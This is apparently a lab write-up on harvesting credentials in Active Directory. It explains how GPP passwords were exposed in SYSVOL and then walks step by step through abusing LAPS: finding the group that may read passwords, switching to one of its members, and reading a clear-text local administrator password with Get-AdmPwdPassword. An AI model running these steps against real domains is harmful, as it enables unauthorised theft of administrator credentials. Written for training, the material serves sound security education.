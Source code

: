 # Local Administrator Password Solution

GPP is a tool that allows administrators to create domain policies with embedded credentials. Once the GPP is deployed, 
different XML files are created in the SYSVOL folder. SYSVOL is an essential component of Active Directory and 
creates a shared directory on an NTFS volume that all authenticated domain users can access with reading permission.

Once upon a time, the GPP relevant XML files contained a password encrypted using AES-256 bit encryption. At that 
time, the encryption was good enough until Microsoft somehow published its private key on [MSDN](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be). 
And because Domain users can read the content of the SYSVOL folder, it becomes easy to decrypt the stored passwords. 
One of the tools to crack the SYSVOL encrypted password is [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1).

In 2015, Microsoft removed storing the encrypted password in the SYSVOL folder. It introduced the Local Administrator Password Solution (LAPS), which offers a much more secure approach to remotely managing the local administrator password.

The new method includes two new attributes (`ms-mcs-AdmPwd` and `ms-mcs-AdmPwdExpirationTime`) of computer objects in 
the Active Directory. The `ms-mcs-AdmPwd` attribute contains a clear-text password of the local administrator, while 
the `ms-mcs-AdmPwdExpirationTime` contains the expiration time to reset the password. LAPS uses `admpwd.dll` to 
change the local administrator password and update the value of `ms-mcs-AdmPwd`.

Enumerating for LAPS:

```text
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm>dir "C:\Program Files\LAPS\CSE"
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Program Files\LAPS\CSE

06/06/2022  01:01 PM    <DIR>          .
06/06/2022  01:01 PM    <DIR>          ..
05/05/2021  07:04 AM           184,232 AdmPwd.dll
               1 File(s)        184,232 bytes
               2 Dir(s)  10,184,249,344 bytes free
```

Switch:

    C:\Users\thm>powershell
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.

Listing the available PowerShell cmdlets for LAPS:
    
```text
PS C:\Users\thm> Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS
```

Finding Users with AdmPwdExtendedRights Attribute:

```text
PS C:\Users\thm> Find-AdmPwdExtendedRights -Identity THMorg

ObjectDN                                      ExtendedRightHolders
--------                                      --------------------
OU=THMorg,DC=thm,DC=red                       {THM\LAPsReader}
```

Finding Users belong to THMLAPsReader Group:

```text
PS C:\Users\thm> net groups "LAPsReader"
Group name     LAPsReader
Comment

Members

-------------------------------------------------------------------------------
bk-admin
The command completed successfully.
```

Info:

```text
PS C:\Users\thm> net user bk-admin
User name                    bk-admin
Full Name                    THM Admin BK
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/4/2022 10:33:48 AM
Password expires             Never
Password changeable          6/5/2022 10:33:48 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   6/9/2022 3:47:28 PM

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
                             *LAPsReader           *Enterprise Admins
The command completed successfully.
```

Switch to `bk-admin`:

```text
PS C:\Users\thm> runas /savecred /user:THM.red\bk-admin cmd.exe
Attempting to start cmd.exe as user "THM.red\bk-admin" ...
Enter the password for THM.red\bk-admin:
Attempting to start cmd.exe as user "THM.red\bk-admin" ...
PS C:\Users\thm>
```

Get password:

```text
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> Get-AdmPwdPassword -ComputerName creds-harvestin

ComputerName         DistinguishedName                             Password           ExpirationTimestamp
------------         -----------------                             --------           -------------------
CREDS-HARVESTIN      CN=CREDS-HARVESTIN,OU=THMorg,DC=thm,DC=red    THMLAPSPassw0rd    2/11/2338 11:05:2...


PS C:\Windows\system32>
```
